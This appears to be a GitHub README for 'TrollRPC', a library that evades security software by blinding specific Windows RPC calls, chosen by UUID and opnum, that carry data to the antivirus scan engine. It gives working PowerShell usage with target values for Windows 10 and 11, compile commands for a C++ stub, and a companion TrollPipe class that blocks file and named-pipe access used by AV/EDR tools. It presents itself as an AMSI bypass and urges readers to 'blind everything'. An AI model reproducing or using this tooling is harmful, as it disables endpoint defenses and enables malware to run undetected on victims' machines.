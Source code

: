 ## UPDATES
```diff
! UPDATE 09/07/2025
! For windows 11, a working $Opnum_break is 0x00
! How did i obtain this value? attached windbg to a fresh powershell and ran random commands
! windbg breakpoint ->  bp rpcrt4!NdrClientCall3 "r rdx; g"
```
```diff
! UPDATE 11/06/2025
! Added TrollPipe.cs to block CreateFileW to Files or Named Pipes because some AV/EDR use that instead of RPC
! [TrollPipe]::DisappearFileorPipe("<pipe or file name>")
```

# TrollRPC
So what is TrollRPC? Its a library to blind RPC calls based on UUID and OPNUM
![Image](https://github.com/user-attachments/assets/e0fb9e17-def8-4627-847f-7bc60449115a)
<br/> 
https://github.com/andreisss/Ghosting-AMSI released a amsi bypass by breaking NdrClientCall3 which means every subsequent RPC call (eg. some name resolution uses RPC thats why web requests to github fail) breaks which kind of makes the technique obsolete. This particular dll will only break the specific RPC call to the AV scan engine, allowing all other RPC calls through. This means you can bypass amsi for **both powershell/clr** and then continue running commands that require RPC (everything lol). 

## C#
```
[System.Reflection.Assembly]::LoadFile("C:\TrollRPC.dll") 
$UUID = "c503f532-443a-4c69-8300-ccd1fbdb3839"             # The UUID you are targetting
$Opnum = 0x5E                                              # The opnum you are targetting

#WINDOWS 10 VALUE 
$Opnum_break = 0x1F4                                       # Modify the opnum to an invalid value

#WINDOWS 11 VALUE 
$Opnum_break = 0x00                                        # Modify the opnum to an invalid value   
            
[TrollRPC]::Blind($UUID, $Opnum, $Opnum_break)
```

## C++ (win 10 only)
C++ doesnt allow dynamic input of UUID and OPNUM, have to manually tweak the asmstub to put in the OPNUM you want and recompile (easiest way)
```
#Use Visual Studio Command Prompt to compile first, alternatively, you can use the compiled dll
ml64 /c /nologo /Fo AsmStub.obj AsmStub.asm
cl /LD /O2 /MD /DNDEBUG /Zl /GS- /Gy /GF TrollRPC.cpp AsmStub.obj /link kernel32.lib user32.lib msvcrt.lib /OPT:REF /OPT:ICF /DEBUG:NONE /PDB:NONE

Running on powershell -> Right now its hardcoded for a specific AV engine ;)
Add-Type -MemberDefinition @"
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr LoadLibrary(string lpFileName);
"@ -Namespace Win32 -Name NativeMethods

[Win32.NativeMethods]::LoadLibrary("C:\TrollRPC.dll")
```

## Disclaimer
Should only be used for educational purposes!

## Upgrades
- Be creative, blind everything, not just amsi
- opsec not taken into consideration, its just functional








